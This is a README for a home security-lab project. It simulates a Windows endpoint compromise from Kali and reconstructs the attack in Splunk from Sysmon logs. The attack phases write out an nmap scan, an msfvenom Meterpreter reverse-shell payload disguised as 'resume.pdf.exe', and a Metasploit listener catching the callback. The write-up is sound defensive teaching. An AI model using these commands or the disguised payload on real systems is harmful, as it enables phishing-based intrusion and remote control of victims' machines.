



# Mini Home SOC Lab

A single-network, endpoint-focused Security Operations Center lab built to simulate a real-world attack chain and analyze it using industry-standard defensive tools.

---

## Overview

This lab simulates an attacker compromising a Windows endpoint and a defender investigating the incident through a SIEM. The goal was to understand how offensive actions translate into log telemetry and how to reconstruct an attack chain from raw events.

**Network:** Isolated lab — VLAN 10 (`10.0.0.0/24`)

| Machine | OS | IP | Role |
|---|---|---|---|
| Attacker | Kali Linux | 10.0.0.4 | Attack Simulation |
| Target | Windows 10 | 10.0.0.3 | Victim Endpoint |
| SIEM | Splunk Enterprise | 10.0.0.3:8089 | Log Ingestion & Analysis |

---

## Lab Architecture

```
┌─────────────────────────────────────────────────────────┐
│               ISOLATED LAB NETWORK (VLAN 10)            │
│                      10.0.0.0/24                        │
│                                                         │
│  ┌──────────────┐   Attack    ┌──────────────────────┐  │
│  │  Kali Linux  │ ──────────► │    Windows 10        │  │
│  │  10.0.0.4    │             │    10.0.0.3          │  │
│  │              │             │                      │  │
│  │  msfvenom    │             │  Sysmon (telemetry)  │  │
│  │  Metasploit  │             │  Splunk UF (forward) │  │
│  └──────────────┘             └──────────┬───────────┘  │
│                                          │              │
│                               Log Forwarding            │
│                                          │              │
│                               ┌──────────▼───────────┐  │
│                               │  Splunk Enterprise   │  │
│                               │  SIEM / Analysis     │  │
│                               └──────────────────────┘  │
└─────────────────────────────────────────────────────────┘
```

---

## Tools & Technologies

| Tool | Purpose |
|---|---|
| Kali Linux | Attacker OS |
| Nmap | Reconnaissance & port scanning |
| msfvenom | Payload generation |
| Metasploit Framework | Exploitation & post-exploitation |
| Sysmon | Endpoint telemetry (process, network, file events) |
| Splunk Enterprise | SIEM — log ingestion, search, analysis |
| Splunk Universal Forwarder | Log shipping from endpoint to Splunk |
| Splunk Add-on for Windows | Field extraction & event parsing |

---

## Phase 1 — Reconnaissance

Started with an aggressive Nmap scan against the target to identify open ports and running services.

```bash
nmap -sV -sC -A 10.0.0.3
```

**Results:**

```
PORT     STATE  SERVICE        VERSION
135/tcp  open   msrpc          Microsoft Windows RPC
139/tcp  open   netbios-ssn    Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp open   ssl/ms-wbt-server  (RDP)
8089/tcp open   ssl/http       Splunkd httpd
```

Port 3389 (RDP) was open and identified as the attack surface. Splunk was also visible on port 8089, confirming the monitoring stack was running on the same machine.



---

## Phase 2 — Payload Generation

A Meterpreter reverse TCP payload was crafted using msfvenom, disguised as a PDF file to simulate a social engineering delivery method.

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp \
  lhost=10.0.0.4 \
  lport=4444 \
  -f exe \
  -o resume.pdf.exe
```

The payload was saved as `resume.pdf.exe` — a double-extension trick commonly used in phishing attacks to deceive users into executing a malicious file.

```
Payload size: 201798 bytes
Final size of exe file: 208384 bytes
Saved as: resume.pdf.exe
```



---

## Phase 3 — Exploitation

A Metasploit listener was set up on the attacker machine to catch the reverse connection.

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost 10.0.0.4
set lport 4444
run
```

Once the payload was executed on the Windows client (simulating a victim opening the file), a Meterpreter session was established. Post-exploitation commands were then run from the attacker machine to mimic real adversary behavior — gathering system information, listing running processes, and checking network connectivity.

---

## Phase 4 — Detection & Analysis in Splunk

After the attack, the investigation began in Splunk by searching for the attacker's IP across all ingested events.

```
index=* 10.0.0.4
```

Splunk returned **51 events** tied to the attacker's IP, sourced from Sysmon's operational log (`WinEventLog:Microsoft-Windows-Sysmon/Operational`).

**Key findings:**

- **Network connection events** showed the Windows client establishing an outbound connection to `10.0.0.4` on port 4444 — the reverse shell callback.
- **DNS query events** showed the process resolving the attacker IP, with `QueryResults: 10.0.0.4` and the image path clearly logged as `C:\Users\Public\resume.pdf.exe`.
- **Process creation events** tied the malicious executable to the Meterpreter session activity.

This allowed a full reconstruction of the attack chain: from initial payload drop, to execution, to command-and-control — entirely through Sysmon telemetry forwarded into Splunk.



---

## Sysmon Event IDs Referenced

| Event ID | Description |
|---|---|
| 1 | Process Creation |
| 3 | Network Connection |
| 22 | DNS Query |

---

## Key Takeaways

- Sysmon is essential for endpoint visibility. Without it, most of this activity would have been invisible in standard Windows event logs.
- The double-extension payload (`resume.pdf.exe`) highlights how easily users can be deceived — and why file extension visibility and application whitelisting matter.
- Searching by attacker IP in Splunk immediately surfaces all related events across process, network, and DNS logs — demonstrating how a SIEM dramatically accelerates investigation.
- Building the attack yourself is one of the most effective ways to improve as a defender. Knowing what the attacker did makes it far easier to know what to look for.

---

## Screenshots

| Screenshot | Description |
|---|---|
| `screenshots/overview.png` | Lab architecture overview |
| `screenshots/nmap_scan.png` | Nmap reconnaissance scan results |
| `screenshots/payload_generation.png` | msfvenom payload creation |
| `screenshots/splunk_analysis.png` | Splunk SIEM event analysis |

---

## Disclaimer

This lab was built entirely in an isolated virtual environment using VirtualBox. All attack simulations were performed against machines I own and control. This project is for educational purposes only.
